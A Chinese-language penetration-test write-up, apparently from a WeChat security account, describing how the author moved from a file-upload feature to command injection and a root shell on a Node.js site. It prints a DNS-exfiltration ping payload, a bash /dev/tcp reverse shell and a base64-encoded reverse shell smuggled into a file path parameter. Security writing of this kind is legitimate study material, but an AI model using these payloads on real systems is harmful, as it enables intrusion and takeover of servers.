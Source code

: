 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Du_Xg_qsyN_cif0Un3X3GA)

主站打开是这样的只有扫码登陆
--------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74YYbcR4QblOEicNU6pHUJN3QWrex2DvrjA4ymutcg5cT3PKQiad0eAC7w/640?wx_fmt=png)

尝试扫码提示未注册
---------

查看 js，网站用了 webpack 打包
---------------------

所有请求都在
------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74YRYIMNTAwuMjSn2SFoyib5kanrpPTZVoAWvjicMTQll2DgGVmYQFaW0g/640?wx_fmt=png)

这个 js 里面
--------

尝试寻找敏感接口无果
----------

百度 site:domain.com
------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74PicwbmKwPsGtrtraxQ8AFnyIqkF29ctVe0RtZZ8jcdCOlxy03fd7iaEQ/640?wx_fmt=png)

注意到 wx1 子域，打开这个链接跳转到在微信打开
-------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74Y6N4Q684icN8uM4ly8YZqdeicYuBVMhJ3AiadInB7ThZE7RmdsWFfDMicQ/640?wx_fmt=png)

那就到微信打开，查看功能点发现一处上传，先上传正常图片
---------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74hDGsvySv7X3Gkxx7cicXToN75D7pkXPYdDnJ4zzwMFgvibTnnpplvfJQ/640?wx_fmt=png)

改最下面的 filename，后缀不变
-------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74DianRalrk3gicUic7SetoeITNW8HiaQW7iaYhkYvllfEBQqBtwnrPUc0j7g/640?wx_fmt=png)

改上面的 filename 参数，发现应该是任意文件上传
----------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg7451mk9vNvTYiarBWDUxMKDef1Dm1zBrYnHvfiaddCccPNRV8YjTRUExKA/640?wx_fmt=png)

因为在 js 中发现 php 的 ueditor（访问文件不存在）
---------------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg7466n1S89BCXNvBBSia8wjyc4fiarmjicy7Lgic2p5Mflv2xibWtQ3wzSmeLA/640?wx_fmt=png)

顾认为是 php 的站，于是上传 php，成功上传
-------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74sMPxIibsda74cCy0UC0UCenrNicthP7Vnym90ibtfumSXU8HFicPIW4wRw/640?wx_fmt=png)

访问此 php 文件直接被下载回来，没有解析（文件在主站下）
------------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74YRxpJO5SKoRnfUS70P1drF5dhQTmJg5bnHLwkOOwicTSeGqldib8677w/640?wx_fmt=png)

此时想到的是这个目录不解析 php 文件，上传包中有一个 path 参数，想着将文件上传跨目录到网站根目录
-----------------------------------------------------

先尝试随便命名一个文件夹，可以创建，访问文件也存在
-------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74WmxatrwewxeO2AuCziaugLiaPl9zxS2WDicbTqibiaqr8p7AmtrwxeQFv5w/640?wx_fmt=png)

尝试../ .. 跨目录失败
--------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74awRPuByx7rPCXkicZCMEa57C9B1HSvnxHD0qJaUicuGe8RibAxncN9MOQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74KMJaLpD6CkicAGtzFGmn5Vo6z8PRGeibmaYfHxD3TGAIgDQGFticHpuFw/640?wx_fmt=png)

后面尝试各种姿势还是没能跨目录，也尝试修改上传 URI
---------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74ys1gTfXlo2BHqsPhtGraqbrYW25IQayBECuzfS9YYBI9NN9mMHhr3g/640?wx_fmt=png)

把 Image 改为 File，显示 404
----------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74IKq8vfkjgV8BeD5U65HLE7ib1In0SfHDhTIEbKj4Eje5KrD064dXw0w/640?wx_fmt=png)

改为 upload 还是在原来那个目录
-------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74CNwWoSc5TBw9TMmeTDBZDeASiaibMlWfcqfqva0kqPPuULJAOkGL1Akw/640?wx_fmt=png)

于是回头看，微信里的功能
------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74wQ1SwhJpzklNCm9g5AD1x0IoK3P56zaWVsKrzHznNj50KwicUkBgVvA/640?wx_fmt=png)

找到一处视频上传，把图片改为 mp4 后缀上传抓包，发包直接报错
--------------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74vRU2ULOqWz4Oet9NpewpiaS30KE8W8l7fwgzuGjlOP5yy6yRG58jMfQ/640?wx_fmt=png)

此时注意到报错返回的结果，是在执行视频解析的系统命令，注意到下面截图中的两个点
---------------------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74xFnpuWHWoEv2YlYTngKejiageRnqvYnxnhjybf6OR6Df77qv0mJEjAg/640?wx_fmt=png)

因为 path 可控那我是不是可以直接拼接命令呢，于是尝试拼接
-------------------------------

```
| ping `whoami`.z889xcgz67006o0itleim0vxcoie63.burpcollaborator.net |
```

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74IcpVnbOlUTU0WQ1U9j7VE2JAEmMYGiaVdogGzCXe1ujmBcAcPE7bUBA/640?wx_fmt=png)

dnslog 收到响应 whoami 执行结果为 root，此时确定存在命令执行
----------------------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74cicXAljRLb13r0hQ8BGpiaOZwvmCL2k7GicxeI38TC6hbyiaaTaOjhrC5w/640?wx_fmt=png)

直接反弹 shell，服务器没收到
-----------------

```
| bash -i >& /dev/tcp/123.*.*.182/8080 0>&1 |
```

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74pfnfGVIggX5B3IV3c4I02ACNIpXwLkwnK01SEC1xUdfA6e9aQ2ib1qA/640?wx_fmt=png)

感觉是有特殊字符的原因，于是采用 base64 编码
--------------------------

```
tes.txt || echo YmFzaCAtaSA+JiAvZGV2L3*******uNTYuMjQuMTgyLzgwODAgMD4mMQ== | base64 -d | /bin/bash
```

监听的端口依然没收到响应
------------

于是采用 #注释后面的命令
-------------

```
tes.txt || echo YmFzaCAtaSA+JiAvZGV2L3*******uNTYuMjQuMTgyLzgwODAgMD4mMQ== | base64 -d | /bin/bash #
```

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74yrIxEKXx95TZxrReDJCcXPfdibHkiawrj94uzict1BuFEpszeaibLNoS1A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74gmpMnL4nNgqZLmfgsLHK5BTrUIFbh7dQMtMqS29N5LoZl18OWt303w/640?wx_fmt=png)

成功反弹 shell，发现原来是 node.js 的站，难怪之前不解析
-----------------------------------

wx 站
----

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74Mhznice4wiaVICDU3lut4rHtSc8kLRImQ0SIrjKfIHxAHHiazibfTzdaKA/640?wx_fmt=png)

主站
--

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74x1H7w2xMicflZMoYyeliae0Yt8k74FfMHhpXe4XCqPmWDiaVeWhBNcCFQ/640?wx_fmt=png)

此目录记录当时所做之尝试
------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74TU8D3KhXM2rPExRzTMVYYHiaULa1HgeFIs77OgdPJibFRxdsibkPq0PCw/640?wx_fmt=png)

其实一开始就应该注意到
-----------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74rKoTR9RfMSBlxWbBjGRNDEIYWvLL8aG27b8DvOjrF84gMIqFKtRQYg/640?wx_fmt=png)

Express 是 node.js 的一个开发框架就不会在文件上传不解析那里搞那么久了
-------------------------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM52ibTcEL2VvMzDgVt1Zjg74nI326dYEcP1vibjzwMA4ZZdpCd9YBYYe3ksAsEu6ru8eeIlT12FpBpg/640?wx_fmt=png)

公众号

最后  

-----

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**无害实验室拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的**